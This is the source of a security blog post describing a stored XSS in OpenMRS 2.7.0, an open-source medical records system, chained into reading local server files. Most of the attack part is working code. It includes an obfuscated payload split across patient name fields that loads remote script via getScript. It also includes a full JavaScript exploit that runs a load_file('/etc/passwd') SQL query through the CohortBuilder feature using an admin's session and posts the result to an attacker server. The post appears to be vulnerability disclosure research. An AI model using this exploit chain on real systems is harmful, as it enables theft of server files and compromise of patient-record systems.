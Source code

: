 ```yaml
---
layout: post
title: From XSS to Local File Read Bypassing Payload Length Restrictions
---
```


 In this post, we will discuss a stored XSS vulnerability found in one of the popular opensource medical records management software *OpenMRS 2.7.0*. The security research conducted for this software revealed many critical vulnerabilities ranging from Authenticated Remote Code Execution via Java Deserialization to Privilege Escalation and had been reported to vendor around 9 months back. 

We will have a look at how a user with `clerk` privileges can leverage Jquery to overcome length restrictions in a Stored XSS payload and can read local system files by exploiting one of the application features.

## Load .js with getScript()

In this case, the exploit vector was any patient's `fullname` but each field had a charset limitation of around 50 characters and as our payload was gettting placed inside `html` context so it was impossible to weaponize our exploit to exfiltrate any information and I am really not a fan of showing popups because in real world if someone is going to leverage a client side exploit they certainly won't show any popups ;P.

So for the sake of creating a nice POC, I setlled with the following payload where we are using JQuery's `getScript()` function to load an external JavaScript from attacker's server.

```html
foo</script><script>$.getScript(String.fromCharCode(104,116,116,112,58,47,47,120,115,115,47,116,46,106,115),1)</script>bar
```

We divided the payload across name fields of patient's name, overcomming the payload length restrictions.

   ```javascript
      givenName = foo</script><script>$.getScript(
      middleName = String.fromCharCode(104,116,116,112,58,47,47,120,
      familyName = 115,115,47,116,46,106,115),1)</script>bar
   ```

![](/assets/images/xss_to_lfr/1.png)


The reason of having `foo` and `bar` in our payload was to pose a legitimate Patient name and hide our payload from Patient search results.

![](/assets/images/xss_to_lfr/2.png)

## Reading Local System Files

Now comes the interesting part, the application provides a feature name `CohortBuilder` which allows `Admin` users to execute `asynchronous` SQL queries and fetch results by triggering `getLastResult.dwr` http request. After understanding this workflow, we wrote the following javascript exploit and hosted it on our server.


{% highlight javascript %}

function x()
    {
  	var x1 = new XMLHttpRequest();
  	x1.open("POST", "http:\/\/openmrs:8081\/openmrs-standalone\/cohortBuilder.form", true);
  	x1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
  	x1.withCredentials = true;
  	var body = "method=addDynamicFilter&filterClass=org.openmrs.module.reportingcompatibility.reporting.SqlPatientFilter&vars=query%23java.lang.String&query=select+hex%28load_file%28%27%2Fetc%2Fpasswd%27%29%29%3B";
  	var aBody = new Uint8Array(body.length);
  	for (var i = 0; i < aBody.length; i++)
  	  aBody[i] = body.charCodeAt(i); 
  	x1.send(new Blob([aBody]));
  	y();
    }
   
function y()
   {
 	var r;
 	var xhr = new XMLHttpRequest();
 	xhr.open("POST", "http:\/\/openmrs:8081\/openmrs-standalone\/ms\/call\/plaincall\/DWRCohortBuilderService.getLastResult.dwr", true);
 	xhr.setRequestHeader("Content-Type", "text\/plain");
 	xhr.withCredentials = true;
 	
 	var body = "callCount=1\n" + 
 	  "page=/openmrs-standalone/cohortBuilder.list\n" + 
 	  "httpSessionId=\n" + 
 	  "scriptSessionId=2D46415AFBB2267F3E2CECC665080196135\n" + 
 	  "c0-scriptName=DWRCohortBuilderService\n" + 
 	  "c0-methodName=getLastResult\n" + 
 	  "c0-id=0\n" + 
 	  "batchId=0\n";
 	var aBody = new Uint8Array(body.length);
 	for (var i = 0; i < aBody.length; i++)
 	  aBody[i] = body.charCodeAt(i); 
 	
 	xhr.onload = function(){
 		r = xhr.response;
 		exfil(r);
 	}
 	xhr.responseType = "text";
 	xhr.send(new Blob([aBody]));
   }
function exfil(r)
   {
 	var x1 = new XMLHttpRequest();
 	x1.open("POST", "http:\/\/localhost:80\/", true);
 	x1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
 	x1.withCredentials = true;
 	var body = r;
 	var aBody = new Uint8Array(body.length);
 	for (var i = 0; i < aBody.length; i++)
 	  aBody[i] = body.charCodeAt(i); 
 	x1.send(new Blob([aBody]));
   }
   x()
{% endhighlight %}


Now, when an `Admin` user clicks on the search result and then `Edit` the patient details as shown, the application executes our payload and send the *hex encoded* contents of `/etc/passwd` file to our server.

![](/assets/images/xss_to_lfr/3.png){: .center-image }

![](/assets/images/xss_to_lfr/final.jpg)

![](/assets/images/xss_to_lfr/4.png)

